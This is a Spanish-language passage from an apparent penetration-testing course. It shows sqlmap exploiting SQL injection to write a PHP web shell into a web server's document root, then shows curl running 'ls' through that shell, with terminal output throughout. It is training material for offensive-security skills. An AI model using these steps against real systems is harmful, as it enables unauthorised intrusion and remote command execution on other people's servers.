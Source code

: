 Explotación del sistema operativo

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/

```

Vemos que SQLMAP confirmó que el archivo fue escrito de hecho:

Explotación del sistema operativo

```
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

```

Ahora, podemos intentar acceder al shell PHP remoto y ejecutar un comando de muestra:

Explotación del sistema operativo

```
xnoxos@htb[/htb]$ curl http://www.example.com/shell.php?cmd=ls+-latotal 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...

```

Vemos que nuestro shell PHP fue escrito en el servidor remoto, y que tenemos ejecución de comandos a través del servidor host.

---

# **Ejecución del comando del sistema operativo**
